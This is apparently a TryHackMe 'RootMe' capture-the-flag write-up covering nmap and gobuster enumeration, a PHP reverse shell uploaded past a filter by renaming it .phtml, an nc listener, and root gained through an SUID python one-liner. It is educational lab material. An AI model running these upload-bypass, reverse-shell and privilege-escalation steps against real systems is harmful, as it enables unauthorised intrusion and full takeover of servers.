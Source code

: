 <!--- 
 <p align="center">
  THM : RootMe<br>
  Difficulty : Easy<br>
  Room link : https://tryhackme.com/room/rrootme<br>
  <img src="https://i.imgur.com/JegKOYI.png">
</p>

## Summary

- [Nmap scan](#nmap-scan)
- [Website enumeration](#website-enumeration)
- [Bypassing upload filter](#bypassing-upload-filter)
- [Getting a shell](#getting-a-shell)
- [Privilege escalation](#privilege-escalation)
- [Conclusion](#conclusion)

## Nmap scan

Like always, let's use [nmap](https://nmap.org/) to find open ports on the target :  
```
┌──(attacker㉿AttackBox)-[~/Documents/TryHackMe/CTF/RootMe]
└─$ nmap 10.10.237.46 -A -p- -oN nmapResults.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-01 12:21 CEST
Nmap scan report for 10.10.237.46
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.54 seconds
```

**Question : Scan the machine, how many ports are open ?**  
**Answer : 2**  

**Question : What version of Apache is running ?**  
**Answer : 2.4.29**  

**Question : What service is running on port 22 ?**  
**Answer : SSH**  

## Website enumeration

Let's use [Gobuster](https://github.com/OJ/gobuster) to find hidden directories on the website :  
```
┌──(attacker㉿AttackBox)-[~/Documents/TryHackMe/CTF/RootMe]
└─$ gobuster dir -u http://10.10.237.46/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.237.46/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/01 12:22:13 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.237.46/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.237.46/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.10.237.46/js/]     
/panel                (Status: 301) [Size: 312] [--> http://10.10.237.46/panel/]  
Progress: 6822 / 220561 (3.09%)
```

There is an upload directory, so there must be a way to upload files to the server. So maybe we can upload a reverse shell ?
If we go to the /panel directory, there is a form to upload files to the server :  
![](https://i.imgur.com/PmOc4NQ.png)  

**Question : What is the hidden directory ?**  
**Answer : /panel/**  

## Bypassing upload filter

If we try to upload the [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) file by Pentestmonkey using the upload form, we get an error :  
![](https://i.imgur.com/b1vQJGg.png)  

(I have already changed the IP address and the port in the php file. Don't forget to change it to your IP address and to change the listening port to the one you'll use)

It says that php files are not accepted. There must be a way to bypass the filter. So I just changed the extension of the file to `.phtml` and it worked :  
![](https://i.imgur.com/BL565xh.png)  

## Getting a shell

If we take a look at the /uploads directory we found earlier, we can see our uploaded reverse shell :  
![](https://i.imgur.com/8GL26Ka.png)  

We just need to start a listener on our machine :  
```
┌──(attacker@AttackBox)-[~]
└─$ nc -lnvp 4242
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4242
Ncat: Listening on 0.0.0.0:4242
```

And then navigate to our reverse shell, in my case it is `http://10.10.237.46/uploads/php-reverse-shell.phtml`. And if we take a look at our listener, we have a shell :  
```
Ncat: Connection from 10.10.237.46.
Ncat: Connection from 10.10.237.46:36942.
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:39:14 up 21 min,  0 users,  load average: 0.00, 0.01, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Let's do some simple enumeration.
```
$ whoami
www-data
$ ls /home
rootme
test
```

We are www-data and there is 2 user directories in /home. The user flag is located in /var/www :  
```
$ cd /var/www
$ ls  
html
user.txt
$ cat user.txt
THM{**************}
$
```

**Question : Find a form to upload and get a reverse shell, and find the flag.**  
**Answer : THM{*HIDDEN*}**

## Privilege escalation

Before looking for a way to escalate our privileges, let's stabilise our shell. First, let's use `python3 -c 'import pty; pty.spawn("/bin/bash")'` to get 
a more interactive shell. Then we can use `export TERM=xterm` to be able to use `clear`. And to fully stabilise our shell, we can use CTRL+Z to background our shell.
Then we use `stty -echo raw;fg`, and we have a fully stabilised shell !

Now, for the privilege escalation, we can use linPEAS.sh or just search manually. If we look for SUID binaries using `find / -perm -4000 2>/dev/null`, we 
find those binaries :  
```
www-data@rootme:/var/www$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

In the list, there is one binary that can be used for privilege escalation when it has the SUID bit set, it is /usr/bin/python.
If we search for python on [GTFOBins](https://gtfobins.github.io/), we can see that it is possible to spawn a root shell when the SUID bit is set on python :  
![](https://i.imgur.com/RnSBKWs.png)  

Let's use this command and see if we get a root shell :  
```
www-data@rootme:/var/www$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
```

We are root ! Now let's get the root flag, it is located in /root.
```
# cd /root
# ls
root.txt
# cat root.txt
THM{*****************}
```

**Question : Search for files with SUID premission, which file is weird ?**  
**Answer : /usr/bin/python**

**Question : root.txt**  
**Answer : THM{*HIDDEN*}**  

## Conclusion

In this room, we can learn how to bypass simple upload filters to get a reverse shell, and we can learn how to make simple privilege escalation. I think it's a very
good room for beginners. Thanks for this room !
--->
